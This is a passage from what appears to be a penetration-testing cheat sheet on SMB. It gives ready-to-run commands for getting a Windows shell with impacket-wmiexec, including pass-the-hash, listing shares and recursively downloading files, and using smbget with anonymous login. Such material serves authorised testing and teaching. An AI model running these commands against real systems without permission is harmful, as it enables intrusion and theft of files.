 To get a Windows shell, run the following examples.

```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

<br /><br />

## Commands in SMB

After connecting, we can investigate the shared folder to find sensitive files or information.

<br />

### List Folders/Files

```sh
smb> ls
```

<br />

### Download Folders/Files

```sh
smb> get sample.txt
# If the filename contains spaces, it need to be enclosed in double-quotes.
smb> get "Example File.txt"
```

To download files recursively, run the following commands.

```sh
smb> mask ""
smb> recurse ON
smb> prompt OFF
smb> mget *
```

Or using smbget from local machine.  
Especially, it’s useful for **downloading a large file** rather than “get” command in smbclient.

```sh
smbget smb://<target-ip>/somedir/example.txt -U username
smbget -R smb://<target-ip>/somedir -U username

# Specify workgroup
smbget -R smb://<target-ip>/somedir -w WORKGROUP -U username

# as anonymous user
smbget smb://<target-ip>/somedir -U anonymous
password: anonymous
```
